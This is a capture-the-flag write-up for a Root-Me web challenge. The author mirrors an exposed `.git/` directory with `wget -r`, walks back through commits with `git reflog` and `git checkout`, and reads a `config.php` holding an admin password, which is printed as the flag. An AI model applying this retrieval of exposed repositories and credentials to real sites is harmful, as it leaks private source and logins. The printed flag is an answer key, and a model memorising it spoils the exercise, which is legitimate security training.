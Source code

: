 ```yaml
---
layout: default
title: Insecure-Code-Management
---
```


Here we can see that `.git/` is open, and we can download the whole database.
Let's use `wget -r http://challenge01.root-me.org/web-serveur/ch61/.git/` and download it. 

Then, cd and init the git repo.
```
cd challenge01.root-me.org/web-serveur/ch61/
git init .
```

I wanna see the older commits, so we'll use `reflog`.
```
agonen@PC4:~/challenge01.root-me.org/web-serveur/ch61$ git reflog
c0b4661 (HEAD -> master) HEAD@{0}: commit: blue team want sha256!!!!!!!!!
550880c HEAD@{1}: commit: renamed app name
a8673b2 HEAD@{2}: commit: changed password
1572c85 HEAD@{3}: commit: secure auth with md5
5e0e146 HEAD@{4}: commit (initial): Initial commit for the new HR database access
```

Let's try to checkout commit by commit, until we find the password.
```
agonen@PC4:~/challenge01.root-me.org/web-serveur/ch61$ git checkout 550880c
M       css/style.css
M       image/background.jpg
M       image/logo.png
Note: switching to '550880c'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at 550880c renamed app name
```

Now, let's check what there is in the folder.
```
agonen@PC4:~/challenge01.root-me.org/web-serveur/ch61$ ls
config.php  css  image  index.html  index.php
```
We can see the config.php, interesting
```
agonen@PC4:~/challenge01.root-me.org/web-serveur/ch61$ cat config.php
<?php
        $username = "admin";
        $password = "s3cureP@ssw0rd";
```

Yay, we found the password.

**Flag:** ***`s3cureP@ssw0rd`***
